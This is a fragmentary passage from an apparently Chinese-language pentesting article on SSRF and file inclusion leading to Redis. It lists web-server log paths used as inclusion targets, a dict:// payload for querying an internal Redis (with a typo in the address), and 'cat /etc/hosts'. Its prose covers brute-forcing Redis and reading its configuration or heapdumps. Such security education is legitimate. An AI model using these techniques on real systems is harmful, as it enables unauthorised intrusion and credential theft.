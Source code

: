 ```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```  
  
dicr  
协议探测内网端口读取到  
IP  
就可以这样这样爆破操作  
  
  
[国光SSRF靶场探测内网](https://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247512471&idx=1&sn=f73b1e5ca38a49326a66599743de07fc&scene=21#wechat_redirect)  
  
  
  
如果读取到  
IP  
端口并且未授权就连接  
Redis  
dict  
这个协议也可以操作  
Redis  
执命令  
  
```
dict://127/0.0.1:6379/info/  # SSR伪造协议读取redis信息
     cat /etc/hosts          #读取网络信息
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5PKyElm4ibia7bDr6ypz9AZHCfcHUqTdLcQorYNHsZs3jCmIgv3o6kRhQ/640?wx_fmt=png&from=appmsg "")  
  
  
读取或包含  
Redis  
密码记录网站存在文件包含可以 读取  
redis  
配置文件信息,或者是其他的  
Spring boot heapdump  
等  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5FOSrk7SEYD0xPicW4L8Uic8oUrAc4y6Z4vvQ2Uic4nLtaic4QTczwMbIsA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5PKyElm4ibia7bDr6ypz9AZHCfcHUqTdLcQorYNHsZs3jCmIgv3o6kRhQ/640?wx_fmt=png&from=appmsg "")  
  
## 上传文件图片  
  
